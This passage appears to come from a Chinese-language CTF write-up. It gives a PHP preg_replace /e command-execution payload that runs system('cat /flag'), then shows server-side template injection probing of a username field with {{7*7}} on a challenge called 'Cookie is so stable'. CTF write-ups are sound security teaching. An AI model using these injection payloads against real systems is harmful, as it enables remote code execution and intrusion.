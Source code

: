看见正则匹配函数有`/e`选项，可以命令执行 [参考文章](https://xz.aliyun.com/t/2557)

```
payload:?\S*=${getFlag()}&cmd=assert(system("cat%20/flag"));
```



## Cookie is so stable

还是和之前The mystery of ip一样的界面。flag界面变成了输入username

![](/pic/163.png)

测试xss，sql注入，均无果。猜测可能还是ssti

```,
输入{7*7}，无果再次测试{{7*7}}，发现返回了49,继续测试{{7*'7'}}，返回49
```

附上测试流程
